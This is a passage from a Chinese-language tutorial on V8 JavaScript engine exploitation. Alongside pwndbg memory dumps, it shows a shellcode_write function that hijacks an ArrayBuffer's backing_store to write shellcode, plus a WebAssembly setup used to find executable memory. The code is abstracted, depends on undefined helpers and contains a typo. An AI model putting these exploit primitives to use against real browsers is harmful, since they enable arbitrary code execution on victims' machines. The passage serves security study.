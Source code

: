 ```
 - embedder fields = {
    0, aligned pointer: (nil)
    0, aligned pointer: (nil)
 }
pwndbg> tel 0x56504b1f89d0
00:0000│  0x56504b1f89d0 ◂— 0x4000000000000000
01:0008│  0x56504b1f89d8 ◂— 0x0

pwndbg> x/20wx 0x1032080499e5-1
0x1032080499e4:	0x08203271	0x0800222d	0x0800222d	0x00000010
0x1032080499f4:	0x00000000	0x00000010	0x00000000	0x4b1f89d0
```

可以注意到，JSDataView 的 buffer 指向了 JSArrayBuffer，而 JSArrayBuffer 的 backing\_store 则指向了实际的数据储存地址，那么如果我们能够写 backing\_store 为 shellcode 内存段，就可以通过 JSDataView 的 setFloat64 方法直接写入了

而该成员在 data\_buf+0x1C 处

> 每个成员的地址偏移都会因为版本而迁移，这一点还请读者以自己手上的版本为准

```javascript
function shellcode_write(addr,shellcode)
{
	var data_buf = new ArrayBuffer(shellcode.lenght*8);
	var data_view = new DataView(data_buf);
	var buf_backing_store_addr=addressOf(data_buf)+0x18n;
	write64_addr(buf_backing_store_addr,addr);
	for (let i=0;i<shellcode.length;++i)
		data_view.setFloat64(i*8,int_to_float(shellcode[i]),true);
}
```

> 该函数需要根据实际情况自行修改，示例代码仅做了一些逻辑抽象 并且由于数据压缩的原因，获取 buf\_backing\_store\_addr 的操作有可能不只是一次 addressOf 即可完成的，需要将低位和高位分别读出然后合并为 64 位地址后再写入，这里只做逻辑抽象，具体实践在以后的章节中另外补充

然后是获取写入内存段的地址了，回到开始的这个脚本：

```javascript
var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);

var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var f = wasmInstance.exports.main;
%DebugPrint(f);
%DebugPrint(wasmInstance);
%SystemBreak();
```

```
pwndbg> job 0x3e63081d35bd
0x3e63081d35bd: [WasmInstanceObject] in OldSpace
 - map: 0x3e6308207399 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x3e6308048079 <Object map = 0x3e6308207af1>
 - elements: 0x3e630800222d <FixedArray[0]> [HOLEY_ELEMENTS]
 - module_object: 0x3e6308049cb1 <Module map = 0x3e6308207231>
 - exports_object: 0x3e6308049e65 <Object map = 0x3e6308207bb9>
 - native_context: 0x3e63081c3649 <NativeContext[252]>
 - memory_object: 0x3e63081d35a5 <Memory map = 0x3e6308207641>
 - table 0: 0x3e6308049e35 <Table map = 0x3e63082074b1>
 - imported_function_refs: 0x3e630800222d <FixedArray[0]>
 - indirect_function_table_refs: 0x3e630800222d <FixedArray[0]>
 - managed_native_allocations: 0x3e6308049ded <Foreign>
 - memory_start: 0x7f6b18000000
 - memory_size: 65536
 - imported_function_targets: 0x55b235cab0e0
```